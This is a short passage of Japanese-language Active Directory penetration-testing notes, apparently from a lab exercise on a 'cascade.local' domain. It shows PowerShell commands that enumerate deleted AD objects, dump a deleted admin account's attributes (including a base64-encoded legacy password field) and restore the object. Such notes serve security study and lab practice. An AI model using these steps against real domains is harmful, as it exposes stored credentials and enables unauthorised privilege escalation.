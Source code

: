 c.f.)
- [hacking deram](https://www.hackingdream.net/2021/04/active-directory-penetration-testing-cheatsheet.html)
- [offsec journey](https://notes.offsec-journey.com/active-directory/domain-privilege-escalation)

``` powershell
PS> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
...
Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059 
...
```

見つかったdeleted userのパスワードを抽出できるかもしれないよ：
```
PS> Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
                                                                                                                                                 
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
userPrincipalName               : TempAdmin@cascade.local
```

deleted objectを復活させる：

```
PS> Restore-ADObject -Identity 'OBJECT-ID HERE'
```
